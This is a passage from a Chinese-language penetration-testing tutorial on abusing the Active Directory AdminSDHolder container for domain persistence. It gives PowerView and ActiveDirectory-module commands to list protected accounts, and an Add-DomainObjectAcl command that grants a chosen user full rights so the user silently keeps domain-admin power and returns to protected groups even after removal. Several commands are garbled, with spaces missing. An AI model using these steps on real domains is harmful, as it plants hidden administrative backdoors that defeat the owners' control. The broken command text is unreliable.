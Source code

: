 # 0x03 AdminSDHolder组

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护AD账户和组的模板，当我们获取到域控权限，就可以通过授予该用户对容器进行滥用，使该用户成为域管。

默认情况下，该组的 ACL 被复制到所有“受保护组”中。这样做是为了避免有意或无意地更改这些关键组。但是，如果攻击者修改了AdminSDHolder组的
ACL，例如授予普通用户完全权限，则该用户将拥有受保护组内所有组的完全权限（在一小时内）。如果有人试图在一小时或更短的时间内从域管理员中删除此用户（例如），该用户将回到组中。

    
    
    在server2000中引入，默认包含如下的组：AdministratorsDomainAdminsAccountOperatorsBackupOperatorsDomainControllersEnterpriseAdminsPrintOperatorsReplicatorRead-only DomainControllersSchemaAdminsServerOperators

其中Administrators、Domain Admins、Enterprise
Admins组对AdminSDHolder上的属性具有写权限，受保护的ad账户和组的具备admincount属性值为1的特征。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192542.png)

## 3.1 使用powerview查询

查询ad保护的域的用户

    
    
    Get-NetUser-AdminCount|select samaccountname

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192543.png)

查询域中受ad保护的所有组

    
    
    Get-netgroup -AdminCount| select name

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192544.png)

## 3.2 使用ActiveDirectory

查询ad保护的域中所有的用户和组

    
    
    Import-ModuleActiveDirectoryGet-ADObject-LDAPFilter"(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))"|select name

![]()

## 3.3 添加用户

添加jack用户对其有完全控制权限。

    
    
    Add-DomainObjectAcl-TargetIdentityAdminSDHolder-PrincipalIdentity jack -RightsAll

然后验证下，这里的sid为jack用户的。

    
    
    Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier-match "S-1-5-21-151877218-3666268517-4145415712-1106"} | select objectdn,ActiveDirectoryRights |sort -Unique
